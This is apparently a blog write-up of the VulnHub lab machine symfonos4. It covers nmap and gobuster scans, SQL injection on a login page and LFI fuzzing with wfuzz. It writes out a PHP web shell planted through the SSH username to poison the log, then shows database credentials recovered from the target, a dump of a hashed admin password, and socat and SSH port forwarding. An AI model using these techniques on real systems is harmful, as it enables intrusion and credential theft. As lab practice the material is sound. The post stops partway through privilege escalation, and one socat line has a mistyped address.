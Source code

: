 ```yaml
---
layout : post
title: symfonos4
date: 2021-04-17 07:28:00 +5:30 
tags: [LFI , SSHLog file Posioning ,SSH PortForwording , SOCAT PortForwording , mysql]
---
```


# Nmap 

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 22:27 EDT
Nmap scan report for 10.0.2.51 (10.0.2.51)
Host is up (0.00024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 08:00:27:64:A3:27 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

```

<h3>Gobuster</h3>

```
gobuster dir -u http://10.0.2.51/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.51/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 00:19:31 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 293]
/.htaccess.html       (Status: 403) [Size: 298]
/.htpasswd.txt        (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 297]
/atlantis.php         (Status: 200) [Size: 1718]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.51/css/]
/index.html           (Status: 200) [Size: 201]                            
/javascript           (Status: 301) [Size: 311] [--> http://10.0.2.51/javascript/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.51/js/]        
/manual               (Status: 301) [Size: 307] [--> http://10.0.2.51/manual/]    
/robots.txt           (Status: 403) [Size: 294]                                   
/robots.txt           (Status: 403) [Size: 294]                                   
/sea.php              (Status: 302) [Size: 0] [--> atlantis.php]                  
/server-status        (Status: 403) [Size: 297]                     

```

# Enumeration

at `/atlantis.php` login page is vulnerable to sqli
![]({{site.baseurl}}/img/vulnhub/symfonos4/atlantis.png)

after login page redirects to /sea.php which has LFI 
```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -b 39bu7ekc7nlhdqbf9kcr8bplbj --hc 404 --hh 206 --hw 0 http://10.0.2.51/sea.php?file=FUZZ
```

![]({{site.baseurl}}/img/vulnhub/symfonos4/lfi.png)

from this LFI we need RCE , we can use SSHLogFile Posioning and Get reverse Shell

# Exploitation 
<h3>LFI to RCE using ssh logFile Poisoning </h3>

By inserting the php ReverseShell as a userName during ssh Login , which gave us ReverseShell 

```bash
ssh '<?php system($_GET['cmd']); ?>'10.0.2.51
``` 

![]({{site.baseurl}}/img/vulnhub/symfonos4/exploit.png)

>Found this passwd from linpeasOutput

```bash
var/www/html/atlantis.php:   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
/var/www/html/atlantis.php:   define('DB_USERNAME', 'root');
```
 >root:yVzyRGw3cG2Uyt2r

<h3>MySql Enumeration</h3>

also port 3306 on ServerLocal host its running mqsql 

```bash

www-data@symfonos4:/tmp$ 
www-data@symfonos4:/tmp$ mysql -h 127.0.0.1 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.3.15-MariaDB-1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

ariaDB [(none)]> show database;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.002 sec)

MariaDB [(none)]> use db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [db]> show tables;     
+--------------+
| Tables_in_db |
+--------------+
| users        |
+--------------+
1 row in set (0.000 sec)

MariaDB [db]> select * from users;
+----------+------------------------------------------------------------------+
| username | pwd                                                              |
+----------+------------------------------------------------------------------+
| admin    | b674f184cd52edabf2c38c0142452c0af7e21f71e857cebb856e3ad7714b99f2 |
+----------+------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [db]>

```

# PrivilageEsclation 

 port 8080 is Running on ServerlocalHost
We need to portForword to Enumerate the port 

![]({{site.baseurl}}/img/vulnhub/symfonos4/localport.png)

without ssh password , we can use socat to portForword or use ssh  

<h3>PortForwording Using SOCAT</h3>
```
socat TCP-LISTEN:4444,fork,reuseaddr tcp:120.0.0.1:8080 &
```

<h3>PortForwording Using SSH</h3>
```bash
ssh -L 3333:127.0.0.1:8080 poseidon@10.0.2.51                                                                                255 ⨯
poseidon@10.0.2.51  password: 
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 17 02:21:29 2021 from 10.0.2.36
poseidon@symfonos4:~$

```
![]({{site.baseurl}}/img/vulnhub/symfonos4/PF-ssh.png)